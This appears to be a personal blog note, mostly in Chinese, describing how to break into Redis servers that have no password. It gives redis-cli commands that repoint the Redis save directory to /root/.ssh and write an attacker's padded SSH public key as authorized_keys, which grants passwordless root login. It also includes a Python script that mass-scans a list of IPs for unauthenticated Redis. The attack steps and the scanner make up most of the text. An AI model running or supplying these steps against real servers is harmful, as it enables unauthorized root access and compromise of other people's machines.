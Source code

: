```yaml
---
title: Redis未授权入侵
categories: Vul
tags:
- Redis
- Sec
---
```


a common vul for redis until we can find such on 'fofa' with "port"==6379


Can refer this artical

**Target server**:

服务器的防火墙被关闭 这是第一重防御

redis的配置文件中 允许远程连接 和 不绑定IP

redis 未设置密码

使用默认指纹，也就是默认端口号6379


1. 如果有大量IP assert, 通过一下python code找到是否对redis set psw ^[ref1]

2. kali 中使用`redis-cli -h ip` ip填写真实地址

3. 在接下来的会话中输入`info`，可以看到基本信息

https://blog.csdn.net/l1727182921/article/details/115157793

总结一下，接下来就是更改本地生成密钥将`pub`上传得target

`$ (echo -e "\n\n";cat id_rsa.pub;echo -e "\n\n")>1.txt
`处理(头和尾拼接两个换行)一下公钥，存为新文件1.txt,这是我们将要放置在被攻击端的公钥。

![](https://img-blog.csdnimg.cn/img_convert/52f7442bc5d6494d09488f701db9f4b7.png)

成功存入，接下来要做的事就是让被攻击端 将公钥作为authorized_keys 存储在/root/.ssh中，实现我们免密登录

首先 修改Redis默认文件存储的位置
```
ip:6379> config get dir
1) "dir"
2) "/opt/app/redis/bin"
ip:6379> config set dir /root/.ssh
OK
```
修改成功，然后设置要保存的文件名为：authorized_keys

![](https://img-blog.csdnimg.cn/img_convert/666027a8c67e33eab4efc27a441d2f0e.png)

右边的img操作可以不用操作

有公钥有私有就可以进行身份认证了
![](https://img-blog.csdnimg.cn/img_convert/16d890d62a2b2da7dc73d4134a1b51b1.png)

> reference

[1] 
```python
from socket import socket, AF_INET, SOCK_STREAM
def Scanredis(ip:str):
    s = socket(AF_INET, SOCK_STREAM)
    s.settimeout(10) 
    s.connect((ip, 6379))
    s.send('GET 1\r\n'.encode())
    data = s.recv(20)
    s.close()
    if '-NOAUTH'.encode() in data:
        pass
    else:
        print('yes',ip)
with open("ip_redis.txt",'r',encoding="utf-8") as f:
    for line in f:
        try:
            Scanredis(line.strip())
        except Exception as e:
            pass
```
[2]
https://www.cnblogs.com/r0ckysec/p/11444384.html